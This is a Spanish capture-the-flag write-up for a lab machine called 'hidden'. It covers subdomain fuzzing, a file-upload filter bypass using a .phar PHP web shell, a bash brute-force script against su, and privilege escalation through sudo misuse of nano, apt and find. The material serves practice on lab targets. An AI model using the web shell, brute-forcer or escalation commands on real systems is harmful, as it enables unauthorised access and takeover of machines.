 - Tags: #fuzzing #escalarPrivilegios #linux 
______
comenzamos la maquina con el típico escaneo de nmap, en el cual encontramos que el puerto 80 esta abierto, aplicamos el script básico de reconocimiento pero no encontramos nada relevante.
____
![](attachment/d7d519efa9ff25f2a37ca98e30caf18e.png)
____
aplicaremos fuzzing para listar directorios. para esto utilizaremos gobuster y veremos que nos reporta.
____
![](attachment/4e1fd465447d04a56519153d7dfce264.png)
_______
tenemos dos directorios que podrían llegar a ser interesantes los cuales son /mail y  /js pero al final no tienen nada interesante, por lo que ahora nos enfocamos en hacer fuzzing a subdominios.

para esto utilizaremos la herramienta de wfuzz y aplicaremos el siguiente comando.

```shell
wfuzz -c --hl=9 -w /usr/share/seclists/discovery/DNS/subdomains-top1million-110000.txt -H "host:FUZZ.hidden.lab" -u 172.17.0.2
```

veremos a continuación el resultado de realizar este fuzzing.
______
![](attachment/1d6704be3f94659418ce927278d76269.png)
______
tenemos un **dev** el cual agregaremos a la url y veremos a donde nos lleva.
______
![](attachment/c33632507fc756b14723d57ef4d0a753.png)
_____
tenemos que agrear la nueva url al archivo de hosts, para que nos muestre el contenido.
______
![](attachment/089eb7684ec7cad275e03cd7b974bf4e.png)
_____
nos dice que no se permiten archivos .php, por lo que utilizaremos burpSuite para realizar un ataque de tipo sniper para ver que extensiones si son validas.
____
![](attachment/ba28c25d1eec45c8a7a43fd0a816856b.png)
_______
y vemos que el .phar es valido, por lo debemos crear un payload en php que nos permita ejecutar comandos.

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

subimos el archivo y probamos a ver si nos deja ejecutar comandos.
____
![](attachment/2ffb2450383b675b09259097c0cb201a.png)
____
es hora de entablar la reverse shell y acceder a la maquina victima.

ganamos acceso como www-data y si listamos los usuarios con el comando `cut -d: -f1 /etc/passwd`

vemos que existen los siguientes usuarios
_____
![](attachment/92a8db446f70337a81d1e6b424afc561.png)
____
verificando los permisos setuid no se encontró nada de utilidad para escalar privilegios.

por lo que aplicamos un sudo -l y nos pide contraseña, por lo que investigando descubrí un script de bash que permite aplicar fuerza bruta a los usuarios disponibles para tratar de encontrar sus contraseñas.

el scritp es el siguiente:

```bash
#!/bin/bash

# Función que se ejecutará en caso de que el usuario no proporcione 2 argumentos.
mostrar_ayuda() {
    echo -e "\e[1;33mUso: $0 USUARIO DICCIONARIO"
    echo -e "\e[1;31mSe deben especificar tanto el nombre de usuario como el archivo de diccionario.\e[0m"
    exit 1
}

# Para imprimir un sencillo banner en alguna parte del script.
imprimir_banner() {
    echo -e "\e[1;34m"  # Cambiar el texto a color azul brillante
    echo "******************************"
    echo "*     BruteForce SU         *"
    echo "******************************"
    echo -e "\e[0m"  # Restablecer los colores a los valores predeterminados
}

# Llamamos a esta función desde el trap finalizar SIGINT (En caso de que el usuario presione control + c para salir)
finalizar() {
    echo -e "\e[1;31m\nFinalizando el script\e[0m"
    exit
}

trap finalizar SIGINT

usuario=$1
diccionario=$2

# Variable especial $# para comprobar el número de parámetros introducido. En caso de no ser 2, se imprimen las instrucciones.
if [[ $# != 2 ]]; then
    mostrar_ayuda
fi

# Imprimimos el banner al momento de realizar el ataque.
imprimir_banner

# Bucle while que lee línea a línea el contenido de la variable $diccionario, que a su vez esta variable recibe el diccionario como parámetro.
while IFS= read -r password; do
    echo "Probando contraseña: $password"
    if timeout 0.1 bash -c "echo '$password' | su $usuario -c 'echo Hello'" > /dev/null 2>&1; then
        clear
        echo -e "\e[1;32mContraseña encontrada para el usuario $usuario: $password\e[0m"
        break
    fi
done < "$diccionario"
```

este script tal vez nos permita saber la contraseña de algún usuario.

las indicaciones nos dicen que se necesita de un diccionario para probar, tenemos el rockyou pero es un diccionario con un peso considerable para poder subirlo a la maquina, por lo que dividiremos el mismo en partes que contengan 1000 palabras por archivos.

aplicamos el siguiente comando al diccionario para dividirlo 

```bash
split -l 1000 /ruta/del/diccionario part_
```

ahora debemos subir tanto el script como el diccionario, del diccionario solo subiremos la primera parte y probaremos.

la sintaxis del script es sencilla y es la siguiente:

```bash
bash scritp.bash <usuario> <diccionario>
```
_____
![](attachment/07f4c3b9d341c980e25b2254b253e271.png)
_____
aplicamos el script a los 3 diferentes usuarios existente pero solo funciono para el usuario cafetero.

por lo que aplicando un `su cafetero` y su clave, lograremos pivotar al usuario cafetero y como conocemos su clave podremos aplicar el comando `sudo -l` y veremos lo siguiente.
____
![](attachment/91d84dcd17671de68c607fa4c4eaa41c.png)
____
nos dice que podemos ejecutar sin clave el comando nano desde el usuario john, y esto es grave puesto que nano tiene una vulnerabilidad que nos permite pivotar al usuario que ejecute el comando de nano.

si aplicamos el comando:

```shell
su -u john /usr/bin/nano nano
```

podremos acceder al nano y aplicar los siguiente comando para pivotar de usuario.

```shell
R^+X^ (CTRL R + CTRL X)
reset; bash 1>&0 2>&0
```

de esta forma pasaremos al usuario john.
______
![](attachment/d8b621e10273c3c8a7407046b52a57ce.png)
____
ahora que somos el usuario john  apliquemos el comando `sudo -l`.
____
![](attachment/a8d2a2ee7de91b3192a02b8c36ef99fc.png)
____
nos dice que podemos ejecutar el comando apt como el usuario bobby sin proporcionar contraseña.

por lo investigaremos la forma de pivotar al usuario bobby por medio del comando apt

y encontramos que si aplicamos el siguiente comando.

```shell
sudo apt changelog apt
!/bin/sh
```

podremos pivotar de usuario, pero debemos adaptar este comando de la siguiente forma.

```shell
sudo -u bobby /usr/bin/apt changelog apt
```
____
![](attachment/dfc30c8395f0b21fb537687246566185.png)
____
y ahora somos usurario bobby apliquemos el comando `sudo -l` para ver que prosigue.
___
![](attachment/5b91db6d1d819ce4ec8a21c784603e51.png)
____
nos dice que podemos ejecutar el comando find como usuario root sin proporcionar contraseña.

busquemos la forma de escalar privilegios por medio del comando find.

```shell
sudo find . -exec /bin/sh \; -quit
```

con el siguiente comando lograremos ser root.
____
![](attachment/8ecec2b889f393e4903a64823917017a.png)
___
damos por culminada la maquina hidden.



